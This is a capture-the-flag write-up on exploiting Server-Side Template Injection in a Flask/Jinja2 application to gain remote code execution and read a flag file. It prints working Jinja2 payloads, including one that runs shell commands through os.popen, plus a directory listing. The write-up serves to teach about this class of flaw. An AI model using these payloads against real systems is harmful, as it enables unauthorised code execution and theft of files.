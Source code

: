 # CTF Writeup: **Server-Side Template Injection (SSTI) with RCE Exploit**

## Overview

In this challenge, we exploited a **Flask** web application vulnerable to **Server-Side Template Injection (SSTI)**. We escalated the vulnerability to **Remote Code Execution (RCE)**, allowing us to gain access to the system and retrieve the **flag**.

---

## Step-by-Step Exploitation

### 1. **Identifying the Vulnerability: SSTI**

The first step was to confirm that the application was vulnerable to **Server-Side Template Injection**. Since the web app used **Flask** with the **Jinja2** template engine, we tried injecting common Jinja2 syntax into user inputs.

#### Injecting Basic Jinja2 Payloads:

We injected the following simple expression into an input field to test for **SSTI**:
```python
{{7*7}}
```

**Expected Outcome**: If the server evaluates the expression and returns `49`, it confirms the presence of **SSTI**.

If this works and returns `49`, we know the app is vulnerable to **SSTI** and we can move forward to exploit it further.

---

### 2. **Escalating to Remote Code Execution (RCE)**

Once we confirmed **SSTI**, the next step was to escalate it to **Remote Code Execution (RCE)**.

#### Crafting a Payload to Execute Python Code

To execute arbitrary Python code on the server, we injected a payload that used the **`os.popen()`** method to execute a command:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

**Expected Outcome**: This payload should execute the `id` command on the server and return the current user information.

This step confirmed **RCE** on the server, and we were able to interact with the system.

---

### 3. **Exploring the File System**

With **RCE** confirmed, we started exploring the server file system to find useful files, such as the **flag**.

#### Checking the Contents of the `/challenge` Directory

The challenge files were likely stored in the `/challenge` directory, so we listed its contents:

```bash
ls -la /challenge
```

**Output**:
```bash
total 12
drwxr-xr-x 2 root root 32 Mar 17 13:49 __pycache__
-rwxr-xr-x 1 root root 1241 Mar 6 03:27 app.py
-rw-r--r-- 1 root root 58 Mar 6 19:44 flag
-rwxr-xr-x 1 root root 268 Mar 6 03:27 requirements.txt
```

**Key Findings**:
- The `flag` file was present and had world-readable permissions (`rw-r--r--`).
- The `app.py` file was the main Python application, and we could inspect it to understand the app's logic further.
- We could also review `requirements.txt` to check the dependencies for any vulnerable packages.

---

### 4. **Accessing the Flag**

Since the `flag` file had read permissions for all users (`rw-r--r--`), we could directly access and read it:

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /challenge/flag').read() }}
```

**Flag Output**:
```
[REDACTED]
```

---

### 5. **Conclusion**

By exploiting **Server-Side Template Injection (SSTI)**, we gained **Remote Code Execution (RCE)** on the server, allowing us to explore the file system and retrieve the flag. This challenge demonstrates the critical security risk of improperly sanitizing user input in web applications using template engines like **Jinja2**.

---

## Flag

```
[REDACTED]
```

---

## Tools and Techniques Used

- **Flask** (Python web framework)
- **Jinja2** (Template engine)
- **Python** (Command execution via `os.popen()`)
- **Linux shell** (for navigating and reading files)

---

## Security Takeaway

This challenge highlights the importance of **sanitizing user input** when using template engines like **Jinja2**. **Server-Side Template Injection (SSTI)** can easily escalate to **Remote Code Execution (RCE)** if input is not properly handled, leading to severe vulnerabilities in web applications.
